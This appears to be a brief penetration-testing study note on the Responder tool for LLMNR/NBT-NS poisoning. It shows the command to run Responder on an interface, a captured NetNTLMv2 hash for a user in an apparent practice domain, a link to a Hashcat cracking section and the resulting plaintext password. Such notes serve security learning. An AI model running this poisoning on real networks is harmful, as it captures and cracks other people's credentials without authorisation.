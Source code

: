 **Tool for Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) that responds to specific NetBIOS queries based on the file server request**.
```bash
sudo responder -I eth0 -dwv
```
`groot::MARVEL:3a3152a856965336:392DF07DE6674A8D277D6BF0F78652D5:010100000000000080C9793D1CF5D701AAFBCF8590CCFF0F0000000002000800590055005900390001001E00`
![[Hashcat#NetNTLMv2]]
Password1

